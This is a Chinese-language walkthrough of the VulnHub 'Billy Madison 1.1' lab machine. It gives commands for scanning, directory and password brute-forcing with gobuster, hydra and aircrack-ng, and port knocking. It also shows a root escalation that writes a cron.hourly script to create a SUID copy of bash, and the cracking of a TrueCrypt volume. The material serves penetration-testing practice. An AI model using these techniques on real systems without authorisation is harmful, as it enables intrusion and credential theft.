 # BILLY MADISON: 1.1

2024-7-30 https://www.vulnhub.com/entry/billy-madison-11,161/

difficulty: Beginner/Moderate

## IP

192.168.5.32

## Scan

Open Port -> 22,23,69,80,137,138,139,445,2525

```
PORT     STATE  SERVICE
22/tcp   open   ssh
23/tcp   open   telnet
69/tcp   open   tftp
80/tcp   open   http
137/tcp  closed netbios-ns
138/tcp  closed netbios-dgm
139/tcp  open   netbios-ssn
445/tcp  open   microsoft-ds
2525/tcp open   ms-v-worlds
```

80 web 上无信息，使用默认字典没爆破出隐藏目录。

23 telnet 上是一个提示信息：I don't use ROTten passwords like rkfpuzrahngvat anymore! Madison Hotels is as good as MINE!!!!

将得到的密码 rot13 运算得到 exschmenuating ，看起来像是个密码

看看 445 smb 上有什么信息： smbclient -N //192.168.5.32/EricsSecretStuff , 下载 3 个文件查看内容，没发现有用提示。

enum4linux 并枚举出 3 个用户：billy、veronica、eric，尝试用上面得到的 2 个类似密码，对 ssh 进行爆破，没有成功。

现在只有一个 web，看看新发现的 rkfpuzrahngvat 和 exschmenuating 是不是 web 上的目录，发现 http://192.168.5.32/exschmenuating/ 可以访问，并得到提示 veronica 会作为文件名的一部分，并且文件的后缀是 .cap 。

I .captured the whole thing in this folder for later lulz. I put "veronica" somewhere in the file name because I bet you a million dollars she uses her name as part of her passwords - if that's true, she rocks! Anyway, malware installation successful. I'm now in complete control of Bill's machine!

http://192.168.5.32/exschmenuating/currently-banned-hosts.txt 中发现我们的 IP 已经被禁用了，需要重置虚拟机。

看看 rockyou 中的单词有没有包好 veronica 的，`cat /usr/share/wordlists/rockyou.txt | grep 'veronica' > file.txt`

重新进行扫描：

```
gobuster -t 32 dir -u http://192.168.5.32/exschmenuating/ -k -w file.txt -e -x cap
```

发现抓包文件 012987veronica.cap 查看其内容，发现了几封往来的邮件，youtube 中提示了端口敲震，才能打开 ftp 端口，最后发现了 FTP 的访问密码：

```
We keep FTP turned off unless someone connects with the "Spanish Armada" combo. https://www.youtube.com/watch?v=z5YU7JwVy7s
Please set me up an account with username of "eric" and password "ericdoesntdrinkhisownpee."
```

先把虚拟机重置，前面提示已经被防火墙 ban 了。端口敲震顺序是 1466 67 1469 1514 1981 1986， 使用 knock 打开隐藏的端口：

```
knock -v 192.168.5.32 1466 67 1469 1514 1981 1986
```

这时重新扫描，发现了 ftp 端口 21 已经打开。

使用 eric:ericdoesntdrinkhisownpee 登陆 ftp, 将文件全部下载分析。.notes 有信息提示：

```
Fortunately, my SSH backdoor into the system IS working.
All I need to do is send an email that includes
the text: "My kid will be a ________ _________"

Hint: https://www.youtube.com/watch?v=6u7RsW5SAgs

The new secret port will be open and then I can login from there with my wifi password, which I'm sure Billy or Veronica know.  I didn't see it in Billy's FTP folders, but didn't have time to check Veronica's.
```

查看视频后，发现填空中的内容：My kid will be a soccer player. note 中提示使用 wifi 密码就可以登陆系统，billy 和 Veronica 知道，billy 的 ftp 中没有，veronica 还没看，那我们就看看她的 ftp 中有没有密码文件。

上面 23 端口的提示中说：she uses her name as part of her passwords 尝试用 rockyout 中包含 veronica 的单词去爆破一下她的密码：

```
hydra -t 10 -l veronica -P file.txt ftp://192.168.5.32
```

爆破除了密码 login: veronica password: babygirl_veronica07@yahoo.com

ftp 登陆，发现 email-from-billy.eml 和 eg-01.cap 下载这 2 个文件。查看这个 cap 文件，是一个 wifi 的抓包文件，其中可能有 wifi 的密码，使用 aircrack-ng 进行下爆破：

```
aircrack-ng eg-01.cap -w /usr/share/wordlists/rockyou.txt

发现密码:  triscuit*
```

现在需要找到新的开放端口，需要发送邮件，前面发现的邮件使用的是 2525 端口，使用 telnet 进行连接:

```
telnet 192.168.5.32 2525
HELO kali
MAIL FROM: vvaugh@polyfector.edu
RCPT TO: eric@madisonhotels.com
DATA

My kid will be a soccer player

.
quit
```

重新扫描一下端口，看看新开放了哪些，发现端口 1974 是新打开的 ssh，这时就可以用上面发现的密码进行登陆 `eric:triscuit*`, 登陆成功。

进行权限提升，内核版本 4.4.0-36-generic 可能存在内核漏洞。发现一个不是系统自带的 SUID /usr/local/share/sgml/donpcgd Usage: /usr/local/share/sgml/donpcgd path1 path2 好像是能以 eric 身份复制文件，但是没有文件内容。

```
touch /tmp/cro  # 这里必须要以eric的身份创建文件吗，然后拷贝。如果是/etc/passwd所属用户是root，后面还是不能修改

/usr/local/share/sgml/donpcgd /tmp/cro /var/spool/cron/crontabs/root  # 这个不行root文件已经存在。


/usr/local/share/sgml/donpcgd /tmp/cro /etc/cron.hourly/cro1     # 这里只能用hour这个计划任务，等待一个小时，不能使用root用户自定义的计划任务
eric@BM:~$ ls -al /etc/cron.hourly/cro1
-rw-rw-r-- 1 eric eric 0 Jul 30 04:18 /etc/cron.hourly/cro1

chmod +x /etc/cron.hourly/cro1
echo -e '#!/bin/bash\ncp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash' > /etc/cron.hourly/cro1
```

等待 1 个小时后，在/tmp 目录中生成了 rootbash, 执行 /tmp/rootbash -p 获得了 root 权限。

在 /PRIVATE 发现了提示文件 hint.txt，提示密码在这个连接中：https://en.wikipedia.org/wiki/Billy_Madison 使用 cewl 收集下密码信息：

```
cewl -d 0 'https://en.wikipedia.org/wiki/Billy_Madison' -w pass
```

使用上面得到的密码字典对 BowelMovement 进行解密，使用 truecrack 进行解密 truecrypt：

```
truecrack -v -t BowelMovement -w pass
Found password:		"execrable"
```

最后安装 veracrypt 输入得到的密码 execrable 就能看到原始的文件了：

```
mkdir /tmp/true
veracrypt -tc BowelMovement /tmp/true
```

解密后，得到一个 secret.zip 文件，将其解压，就得到了最终的目标文件。
